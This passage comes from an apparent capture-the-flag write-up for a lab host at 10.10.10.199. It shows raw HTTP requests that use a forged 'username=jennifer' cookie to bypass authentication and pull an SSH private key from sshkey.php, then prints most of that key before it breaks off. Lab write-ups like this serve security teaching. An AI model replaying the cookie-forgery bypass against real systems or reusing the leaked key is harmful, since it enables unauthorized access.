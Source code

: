 We fire up Burp and add a `username=jennifier` cookie to our authentication
request.

    :::text
    POST /index.php HTTP/1.1
    Host: 10.10.10.199
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.199/index.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31
    Connection: close
    Cookie: PHPSESSID=5j485ne4sih5h7dl0fk2f2e8g7;username=jennifer
    Upgrade-Insecure-Requests: 1

    username=-schallenge&password=q

We also add the cookie to the next request to `sshkey.php`

    :::text
    GET /sshkey.php HTTP/1.1
    Host: 10.10.10.199
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.199/index.php
    Connection: close
    Cookie: PHPSESSID=jma32i3d8r5ob3lmo3hbgi741a;username=jennifer
    Upgrade-Insecure-Requests: 1


The application directly give us Jennifer's SSH private key.

    :::text
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAo4LwXsnKH6jzcmIKSlePCo/2YWklHnGn50YeINLm7LqVMDJJnbNx
    OI6lTsb9qpn0zhehBS2RCx/i6YNWpmBBPCy6s2CxsYSiRd3S7NftPNKanTTQFKfOpEn7rG
    nag+n7Ke+iZ1U/FEw4yNwHrrEI2pklGagQjnZgZUADzxVArjN5RsAPYE50mpVB7JO8E7DR
    PWCfMNZYd7uIFBVRrQKgM/n087fUyEyFZGibq8BRLNNwUYidkJOmgKSFoSOa9+6B0ou5oU
    qjP7fp0kpsJ/XM1gsDR/75lxegO22PPfz15ZC04APKFlLJo1ZEtozcmBDxdODJ3iTXj8Js
    kLV+lnJAMInjK3TOoj9F4cZ5WTk29v/c7aExv9zQYZ+sHdoZtLy27JobZJli/9veIp8hBG
    717QzQxMmKpvnlc76HLigzqmNoq4UxSZlhYRclBUs3l5CU9pdsCb3U1tVSFZPNvQgNO2JD
    S7O6sUJFu6mXiolTmt9eF+8SvEdZDHXvAqqvXqBRAAAFmKm8m76pvJu+AAAAB3NzaC1yc2
    EAAAGBAKOC8F7Jyh+o83JiCkpXjwqP9mFpJR5xp+dGHiDS5uy6lTAySZ2zcTiOpU7G/aqZ
    9M4XoQUtkQsf4umDVqZgQTwsurNgsbGEokXd0uzX7TzSmp000BSnzqRJ+6xp2oPp+ynvom
    dVPxRMOMjcB66xCNqZJRmoEI52YGVAA88VQK4zeUbAD2BOdJqVQeyTvBOw0T1gnzDWWHe7
    iBQVUa0CoDP59PO31MhMhWRom6vAUSzTcFGInZCTpoCkhaEjmvfugdKLuaFKoz+36dJKbC
    f1zNYLA0f++ZcXoDttjz389eWQtOADyhZSyaNWRLaM3JgQ8XTgyd4k14/CbJC1fpZyQDCJ
    4yt0zqI/ReHGeVk5Nvb/3O2hMb/c0GGfrB3aGbS8tuyaG2SZYv/b3iKfIQRu9e0M0MTJiq
    b55XO+hy4oM6pjaKuFMUmZYWEXJQVLN5eQlPaXbAm91NbVUhWTzb0IDTtiQ0uzurFCRbup l4qJU5rfXhfvErxHWQx17wKqr16gUQAAAAMBAAEAAAGBAJjT/uUpyIDVAk5L8oBP3IOr0U
    Z051vQMXZKJEjbtzlWn7C/n+0FVnLdaQb7mQcHBThH/5l+YI48THOj7a5uUyryR8L3Qr7A
    UIfq8IWswLHTyu3a+g4EVnFaMSCSg8o+PSKSN4JLvDy1jXG3rnqKP9NJxtJ3MpplbG3Wan
    j4zU7FD7qgMv759aSykz6TSvxAjSHIGKKmBWRL5MGYt5F03dYW7+uITBq24wrZd38NrxGt
    wtKCVXtXdg3ROJFHXUYVJsX09Yv5tH5dxs93Re0HoDSLZuQyIc5iDHnR4CT+0QEX14u3EL
    TxaoqT6GBtynwP7Z79s9G5VAF46deQW6jEtc6akIbcyEzU9T3YjrZ2rAaECkJo4+ppjiJp
    NmDe8LSyaXKDIvC8lb3b5oixFZAvkGIvnIHhgRGv/+pHTqo9dDDd+utlIzGPBXsTRYG2Vz
    j7Zl0cYleUzPXdsf5deSpoXY7axwlyEkAXvavFVjU1UgZ8uIqu8W1BiODbcOK8jMgDkQAA
    AMB0rxI03D/q8PzTgKml88XoxhqokLqIgevkfL/IK4z8728r+3jLqfbR9mE3Vr4tPjfgOq
    eaCUkHTiEo6Z3TnkpbTVmhQbCExRdOvxPfPYyvI7r5wxkTEgVXJTuaoUJtJYJJH2n6bgB3
    WIQfNilqAesxeiM4MOmKEQcHiGNHbbVW+ehuSdfDmZZb0qQkPZK3KH2ioOaXCNA0h+FC+g
    dhqTJhv2vl1X/Jy/assyr80KFC9Eo1DTah2TLnJZJpuJjENS4AAADBAM0xIVEJZWEdWGOg
    G1vwKHWBI9iNSdxn1c+SHIuGNm6RTrrxuDljYWaV0VBn4cmpswBcJ2O+AOLKZvnMJlmWKy